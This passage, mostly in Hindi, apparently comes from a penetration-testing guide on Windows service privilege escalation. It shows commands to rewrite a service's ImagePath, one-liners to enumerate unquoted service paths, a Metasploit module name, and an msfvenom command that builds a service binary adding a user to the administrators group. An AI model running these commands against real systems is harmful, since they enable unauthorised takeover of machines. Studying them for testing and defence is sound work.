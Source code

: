 बाइनरी के निष्पादन के पथ को बदलने के लिए:
```bash
reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```
### Services registry AppendData/AddSubdirectory permissions

यदि आपके पास एक रजिस्ट्री पर यह अनुमति है, तो इसका मतलब है कि **आप इस रजिस्ट्री से उप रजिस्ट्री बना सकते हैं**। Windows सेवाओं के मामले में, यह **मनमाने कोड को निष्पादित करने के लिए पर्याप्त है:**


{{#ref}}
appenddata-addsubdirectory-permission-over-service-registry.md
{{#endref}}

### Unquoted Service Paths

यदि किसी निष्पादन योग्य का पथ उद्धरण के अंदर नहीं है, तो Windows हर स्पेस से पहले समाप्ति को निष्पादित करने की कोशिश करेगा।

उदाहरण के लिए, पथ _C:\Program Files\Some Folder\Service.exe_ के लिए Windows निष्पादित करने की कोशिश करेगा:
```bash
C:\Program.exe
C:\Program Files\Some.exe
C:\Program Files\Some Folder\Service.exe
```
बिना उद्धृत सेवा पथों की सूची बनाएं, जो अंतर्निहित Windows सेवाओं से संबंधित नहीं हैं:
```bash
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v '\"'
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v '\"'  # Not only auto services

# Using PowerUp.ps1
Get-ServiceUnquoted -Verbose
```

```bash
for /f "tokens=2" %%n in ('sc query state^= all^| findstr SERVICE_NAME') do (
for /f "delims=: tokens=1*" %%r in ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""') do (
echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]" >nul 2>&1 && (echo %%n && echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%") && echo.
)
)
```

```bash
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```
**आप इस कमजोरियों का पता लगा सकते हैं और इसका लाभ उठा सकते हैं** metasploit के साथ: `exploit/windows/local/trusted\_service\_path` आप मैन्युअल रूप से एक सेवा बाइनरी बना सकते हैं metasploit के साथ:
```bash
msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe
```
### Recovery Actions
